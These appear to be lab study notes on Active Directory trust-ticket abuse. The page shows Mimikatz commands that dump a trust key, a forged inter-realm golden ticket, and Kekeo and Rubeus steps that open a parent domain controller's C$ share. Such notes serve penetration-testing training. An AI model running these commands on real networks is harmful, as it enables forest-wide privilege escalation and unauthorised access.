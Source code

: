 * sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory.
* sIDHistory can be abused in two ways of escalating privileges within a forest -
  * krbtgt hash of the child
  * Trust tickets

**So, what is required to forge trust tickets is, obviously, the trust key. Look for \[In] trust key from child to parent.**

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

We can forge and inter-realm TGT -

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit" 
```

![](<.gitbook/assets/image (3).png>)

**Abuse with Kekeo -->**

* Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket

```
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorpdc.moneycorp.local
```

* Use the TGS to access the targeted service

```
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$
```

* Tickets for other services (like HOST and RPCSS for WMI, HTTP for PowerShell Remoting and WinRM) can be created as well.

**Abuse with Rubeus-**&#x20;

* Note that we are still using the TGT forged initially

```
Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt
ls \\mcorp-dc.moneycorp.local\c$ 
```

<pre><code><strong>BONUS! wmi command example --> gwmi -Class win32_operatingsystem -ComputerName mcorp-dc
</strong></code></pre>
